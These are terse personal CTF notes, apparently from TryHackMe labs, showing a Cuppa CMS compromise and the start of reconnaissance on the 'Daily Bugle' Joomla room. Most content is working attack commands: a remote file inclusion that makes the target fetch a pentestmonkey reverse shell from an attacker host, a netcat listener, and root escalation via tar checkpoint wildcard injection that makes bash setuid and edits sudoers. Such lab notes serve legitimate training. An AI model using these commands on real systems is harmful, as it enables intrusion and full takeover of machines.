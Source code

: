 		--> gobuster dir -u http://10.10.49.79/45kra24zxs28v3yd -w /usr/share/dirb/wordlists/common.txt
			=> /administrator 
			=> ip /45kra24zxs28v3yd/administrator 
			
		--> searchsploit Cuppa
			=> Remote File Inclusion
			--> get file : searchsploit -m php/webapps/25971.txt

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		upload shell 
			--> pentestmonkey.php ( port 8888)
			--> python3 -m http.server
			--> nc -lvnp 8888
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> http://10.10.114.235/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.92.230:8000/pentestmonkey.php
			--> curl http://10.10.145.137/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.137.110:8000/pentestmonkey.php
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> python -c 'import pty;pty.spawn("/bin/bash")'
			--> bash -i 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	root : 
		--> cat /etc/crontab 
			=>  cd backups => backup.sh

		--> gtfobins : tar
			--> checkpoint[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
			--> checkpoint-action=ACTION — this option executes said ACTION on each checkpoint
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> cd /var/www/html 
			printf '#!/bin/bash\nchmod +s /bin/bash' > shell.
			echo "" > "--checkpoint-action=exec=sh shell.sh"
			echo "" >> --checkpoint=1
			/bin/bash -p 	
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
			touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
			touch "/var/www/html/--checkpoint=1"
			dir
			
			sudo su
## Daily Bugle 
	--> https://tryhackme.com/r/room/dailybugle
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	infomation garthing : 
		nmap -sS -sV -p- 10.10.11.199
			22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
			80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
			3306/tcp open  mysql   MariaDB (unauthorized)
		gobuster dir -u http://10.10.11.199 -w /usr/share/dirb/wordlists/common.txt
			/robots.txt
			/administrator  
		check CMS verion : 
			=> Joomla 3.7.0
			--> 使用joomscan
				--> joomscan是一个专门用于扫描Joomla CMS的工具。
				--> joomscan -u http://10.10.11.199 #此处ip为目标ip
					=> verion | admin page | path | Directory 
			--> 10.10.74.183/language/en-GB/en-GB.xml
		